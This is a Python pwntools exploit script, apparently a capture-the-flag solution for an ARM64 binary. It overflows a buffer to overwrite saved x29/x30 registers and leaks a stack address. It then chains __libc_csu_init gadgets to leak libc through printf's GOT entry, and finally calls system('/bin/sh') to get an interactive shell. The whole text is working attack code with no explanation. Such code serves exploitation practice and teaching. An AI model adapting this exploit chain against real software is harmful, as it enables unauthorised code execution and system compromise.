 ```python

second_name  = b"A"*8 #x29
second_name += p64(elf.symbols['vuln']+0x1c) #x30
second_name += b"A"*32 # junk
second_name += b"A"*8 #x29
second_name += p64(elf.symbols['main']) #x30
second_name += b"A"*0x37 # more junk to bring size to 0x77
io.sendline(second_name)
io.readline()
stack_leak = u64(io.readline().strip().ljust(8,b"\x00")) - 280
print("Stack Leak: " + hex(stack_leak))

io.sendline("Rondo") #name

csu_popper = elf.symbols['__libc_csu_init']+104
csu_caller = elf.symbols['__libc_csu_init']+72

leak_libc_payload = b""
leak_libc_payload += b"B"*0x47
leak_libc_payload += p64(csu_popper)
leak_libc_payload += p64(elf.symbols['printf']) # x29 #stack_leak points to this
leak_libc_payload += p64(csu_caller) # x30
leak_libc_payload += p64(0) # x19 needs to be 0
leak_libc_payload += p64(0) # x20 junk
leak_libc_payload += p64(stack_leak) # x21 call*
leak_libc_payload += p64(elf.got['printf'])# x22 x0
leak_libc_payload += p64(elf.symbols['vuln']+0x30) # x23 x1
leak_libc_payload += p64(0) # x24 x2

io.sendline(leak_libc_payload)

io.readuntil("now: ")
io.readuntil("now: ")

libc.address =  u64(io.read(4).strip().ljust(8,b"\x00")) - libc.symbols['printf']
print("libc: " + hex(libc.address))

io.sendline(b"playoff") # message from earlier call
io.sendline(b"rondo") # name for new call

call_system  = b""
call_system += b"A"*0x47 #junk
call_system += p64(csu_popper)
call_system += b"RONDO___" # x29
call_system += p64(csu_caller) #x30
call_system += p64(0) #x19
call_system += p64(0) #x20
call_system += p64(stack_leak) #x21 call*
call_system += p64(next(libc.search(b"/bin/sh")))# x22 x0
call_system += p64(0) # x23 x1
call_system += p64(0) # x24 x2
call_system += p64(libc.symbols['system'])*0x200

io.clean()
io.sendline(call_system)

io.interactive()
```

